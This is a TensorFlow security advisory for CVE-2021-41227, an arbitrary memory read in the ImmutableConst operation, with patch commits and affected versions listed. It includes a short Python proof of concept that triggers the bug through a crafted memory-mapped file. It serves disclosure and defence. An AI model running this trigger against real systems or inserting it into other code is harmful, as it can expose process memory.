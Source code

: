 ## TFSA-2021-170: Arbitrary memory read in `ImmutableConst`

### CVE Number
CVE-2021-41227

### Impact
The `ImmutableConst` operation in TensorFlow can be tricked into reading arbitrary memory contents:

```python
import tensorflow as tf

with open('/tmp/test','wb') as f:
    f.write(b'\xe2'*128)
    data = tf.raw_ops.ImmutableConst(dtype=tf.string,shape=3,memory_region_name='/tmp/test')

print(data)
```

This is because the `tstring` TensorFlow string class has a special case for memory mapped strings but the operation itself does not offer any support for this datatype.

### Patches
We have patched the issue in GitHub commit [3712a2d3455e6ccb924daa5724a3652a86f6b585](https://github.com/tensorflow/tensorflow/commit/3712a2d3455e6ccb924daa5724a3652a86f6b585) and GitHub commit [1cb6bb6c2a6019417c9adaf9e6843ba75ee2580b](https://github.com/tensorflow/tensorflow/commit/1cb6bb6c2a6019417c9adaf9e6843ba75ee2580b).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
